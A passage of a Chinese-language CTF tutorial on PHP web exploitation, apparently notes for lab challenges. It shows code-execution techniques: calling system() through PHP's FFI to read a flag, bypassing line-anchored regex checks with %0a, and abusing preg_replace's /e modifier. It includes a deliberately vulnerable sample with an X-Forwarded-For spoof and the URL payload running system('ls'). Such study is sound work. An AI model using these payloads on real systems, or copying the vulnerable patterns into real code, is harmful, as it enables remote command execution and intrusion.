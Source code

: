>FFI（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。PHP的FFI扩展就是一个让你在PHP里调用C代码的技术。

通过FFI，可以实现调用system函数，从而将flag直接写入一个新建的文本文件中，然后访问这个文本文件，获得flag

```php
$ffi=FFI :: cdef("int system(const char *command);");
$a='/readflag > 1.txt';
$ffi->system($a);
```

## %0a绕过

**在正则表达式中**

因为以’^’开头，以’$’结尾的只能匹配一行，也就是说我们可以用`%0a`，即url编码下的换行\n去绕过正则匹配

## preg_replace()+/le

执行一个正则表达式的搜索和替换

```php
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
```

搜索`subject`中匹配`pattern`的部分，以`replacement`进行替换。如果`pattern`的模式修饰符使用`/e`，那么当`subject`被匹配成功时，`replacement`会被当做PHP代码执行

### 例题:

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
	echo "<br >Welcome My Admin ! <br >";
	$pattern = $_GET[pat];
	$replacement = $_GET[rep];
	$subject = $_GET[sub];
	if (isset($pattern) && isset($replacement) && isset($subject)) {
		preg_replace($pattern, $replacement, $subject);
	} else {
		die();
	}
}
```

首先XXF伪造，进入if语句里，发现存在漏洞函数preg_repalce()，该函数的三个参数都是我们可控，在subject里面匹配$pattern，并以$replacement替换，如果$pattern里面存在/e，就可以触发命令执行漏洞

sub 和 pat 的参数构造只要满足前面的条件就行，rep 参数则设置为 “system('ls')”，这句代码用于命令行执行 ls 命令获取目录下的所有文件。

```php
?pat=/abc/e&rep=system('ls')&sub=abc
```

### 示例:

```php
<?php
highlight_file(__FILE__);
echo phpversion();
$cmd= $_POST['cmd'];
preg_replace("/j1am/e",$cmd, "j1am66"); 5.4.45desktop-qqn8pqg\administrator
```
